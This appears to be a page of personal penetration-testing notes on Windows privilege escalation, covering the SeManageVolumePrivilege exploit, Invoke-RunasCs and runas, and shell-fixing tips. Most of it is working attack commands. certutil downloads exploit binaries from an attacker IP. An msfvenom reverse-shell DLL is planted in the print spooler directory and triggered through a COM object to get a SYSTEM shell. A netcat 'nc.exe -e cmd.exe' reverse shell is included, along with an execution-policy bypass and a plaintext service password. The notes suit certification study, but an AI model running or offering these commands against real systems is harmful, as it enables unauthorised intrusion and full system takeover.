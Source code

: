 ### SeManageVolumePrivilege

```jsx
certutil -urlcache -split -f http://192.168.45.214/SeManageVolumeExploit.exe
\SeManageVolumeExploit.exe

msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=192.168.45.214 LPORT=443 -f dll -o Printconfig.dll
certutil -split -urlcache -split -f http://192.168.45.214/payload/Printconfig.dll
copy Printconfig.dll C:\Windows\System32\spool\drivers\x64\3\
# press Yes

nc -lvnp 443 # setup listener on KALI

# on target - run trigger
powershell
$type = [Type]::GetTypeFromCLSID("{854A20FB-2D44-457D-992F-EF13785D2B51}")
$object = [Activator]::CreateInstance($type)
# should get nt authority\system shell
```

There is another trigger we can use (Report.wer and WerTrigger.exe in /bin in repo):

[GitHub - sailay1996/WerTrigger: Weaponizing for privileged file writes bugs with windows problem reporting](https://github.com/sailay1996/WerTrigger/tree/master)

### Invoke-RunasCs.ps1

Allows to run commands as another user locally

```jsx
certutil -split -urlcache -f http://192.168.45.197/Invoke-RunasCs.ps1
Import-Module .\Invoke-RunasCs.ps1
Invoke-RunasCs svc_mssql trustno1 "C:\xampp\htdocs\uploads\shell64.exe"
```

```jsx
runas /env /profile /user:DVR4\Administrator "C:\temp\nc.exe -e cmd.exe 192.168.118.14 443"
runas /user:oscp\bernie cmd.exe
# With RDP we can run as administrator (cmd) and type cleartext creds of other admin user
```

### Check if service 32/64 bit

It is important so the payload will be correct arch. Use this powershell script:




### Got shitty cmd shell?

```jsx
set PATH=%SystemRoot%\system32;%SystemRoot%;
%SYSTEMROOT%\System32\WindowsPowerShell\v1.0\powershell.exe
```

```jsx
%SYSTEMROOT%\System32\WindowsPowerShell\v1.0\powershell.exe -ep bypass .\exploit.ps1
```
